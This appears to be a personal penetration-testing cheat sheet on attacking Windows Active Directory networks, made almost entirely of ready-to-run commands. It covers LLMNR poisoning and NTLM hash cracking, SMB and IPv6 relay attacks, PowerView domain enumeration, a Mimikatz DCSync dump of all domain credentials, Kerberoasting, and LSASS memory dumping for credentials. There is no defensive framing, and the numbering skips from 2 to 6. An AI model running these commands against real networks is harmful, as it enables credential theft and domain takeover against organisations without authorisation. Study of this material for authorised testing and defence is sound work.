 https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa
1. LLMNR Poisoning
```
sudo ./Responder.py -I eth0 -rdwv
hashcat -m 5600 ntlmhash.txt ../../rockyou.txt/rockyou.txt --force
```

2. SMB relay
```
nmap --script=smb2-security-mode.nse -p445 192.168.1.0/24
sudo ./Responder.py -I eth0 -rdwv
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
```

6. Ipv6
```
sudo mitm6 -d marvel.local
sudo ntlmrelayx.py -6 -t ldaps://192.168.1.121 -wh fakewpad.marvel.local -l lootme
```

## Enumeration
### Powershell (from OSCP)
```
Get-NetDomain
Get-DomainPolicy
(Get-DomainPolicy)."system access"
Get-NetDomainController
Get-NetUser
Get-UserProperty -Properties pwdlastset
Find-UserField -SearchField Description -SearchTerm "pass"
Get-NetComputer
Get-NetGroup
Get-NetGroup *admin*
Get-NetGroupMember -GroupName "Domain Admins"
Get-NetGroup -UserName "khalid"
Get-NetLocalGroup –ComputerName Client-02
Get-NetLoggedon -ComputerName Client-02
Get-LastLoggedOn -ComputerName CLient
Invoke-ShareFinder
```
https://www.exploit-db.com/docs/english/46990-active-directory-enumeration-with-powershell.pdf

### Powershell (personal lisit)
View and maybe bring back the deleted account
```
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
Get-ADObject -IncludeDeletedObjects -Identity f0cc344d-31e0-4866-bceb-a842791ca059 -Properties *
Restore-ADObject -Identity f0cc344d-31e0-4866-bceb-a842791ca059
```

### Mimikatz
```
Mimikatz /command:"lsadump::dcsync /all"
```

## Exploit
### Kerberoast
```
rubeus kerberoast
```
### Get creds
```
SharpDump.exe
pypykatz lsa minidump sharpdumpfile
```
